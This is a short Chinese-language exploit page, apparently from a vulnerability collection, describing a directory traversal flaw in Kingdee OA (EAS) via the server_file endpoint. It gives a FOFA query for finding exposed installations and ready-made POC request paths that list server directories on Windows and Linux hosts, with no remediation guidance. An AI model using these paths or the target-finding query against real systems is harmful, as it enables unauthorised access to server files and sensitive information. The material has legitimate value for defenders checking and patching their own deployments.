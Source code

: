 # 金蝶OA server_file 目录遍历漏洞

## 漏洞描述

金蝶OA server_file 存在目录遍历漏洞，攻击者通过目录遍历可以获取服务器敏感信息

## 漏洞影响

```
金蝶OA
```

## FOFA

```
app="Kingdee-EAS"
```

## 漏洞复现

登录界面为



![1](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202090144781.png)

漏洞POC

```plain
/appmonitor/protected/selector/server_file/files?folder=/&suffix=

# Windows服务器
appmonitor/protected/selector/server_file/files?folder=C://&suffix=

# Linux服务器
appmonitor/protected/selector/server_file/files?folder=/&suffix=
```

![2](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202090144057.png)